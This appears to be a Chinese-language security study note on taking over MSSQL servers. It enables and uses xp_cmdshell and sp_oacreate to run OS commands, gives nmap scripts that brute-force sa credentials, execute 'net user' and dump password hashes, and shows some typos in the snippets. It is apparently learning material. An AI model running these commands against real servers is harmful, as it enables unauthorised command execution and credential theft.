 ![image](004_第四周—数据库系统功能相关学习/Image_085-1567178982006.png)

介绍：

xp_cmdshell与sp_oacreate是mssql的存储过程的扩展，类似udf于mysql。

xp_cmdshell的利用：

```
exec sp_configure 'show advanced options',1;reconfigure; 
exec sp_configure 'xp_cmdshell',1;reconfigure;
exec master.dbo.xp_cmdshell 'command';
```

sp_oacreate的利用：

```
exec sp_configure 'show advanced options',1;reconfigure; 
exec sp_configure 'ole automation procedures',1;reconfigure;

declare @shell int
exec sp_oacreate 'wscript.shell',@shell out
exec sp_method @shell,'run',null,' c:\windows\system32\cmd.exe \c "command" ';
```





nmap对mmsql的支持：

```
# 爆破mssql用户名和密码：
nmap -p 1433 --script=ms-sql-brute.nse --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.1.1


# xp_cmdshell执行命令
nmap -p 1433 --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 192.168.1.1

#dump_hash
nmap -p 1433 --script=ms-sql-dump-hashes.nse --script-args mssql,username=sa,mssql.password=sa 192.168.1.1
```











# 六 sqli-labs 注入测试

## 1 环境搭建
